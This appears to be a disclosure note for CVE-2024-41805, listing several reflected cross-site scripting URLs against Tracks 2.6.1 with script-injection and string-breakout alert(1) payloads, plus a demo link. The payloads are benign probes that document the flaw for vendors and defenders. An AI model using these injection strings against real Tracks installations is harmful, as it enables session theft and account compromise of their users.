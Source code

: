  CVE-2024-41805


Action to trigger: None

Note: No sample data needed

Version:  Tracks 2.6.1

Authenticated: Yes

User: Admin (possibly others)

Vendor Website: https://www.getontracks.org/



```http://192.168.124.97/stats/show_selected_actions_from_chart/art?index=test><script>alert(1)<%2fscript>```

```http://192.168.124.97/stats/show_selected_actions_from_chart/avrt?index=test><script>alert(1)<%2fscript>```

```http://192.168.124.253/todos/all_done/tag/starred'-alert(1)-'```

```http://192.168.124.253/todos/all_done/tag/test'-alert(1)-'```

```http://192.168.124.253/todos/done/tag/starred'-alert(1)-'```

```http://192.168.124.253/todos/tag/starred%3cscript%3ealert(1)%3c/script%3e```


DEMO:
![](https://github.com/4rdr/proofs/blob/main/gifs/Tracks_2.6.1_Multiple_Reflected_XSS.gif)
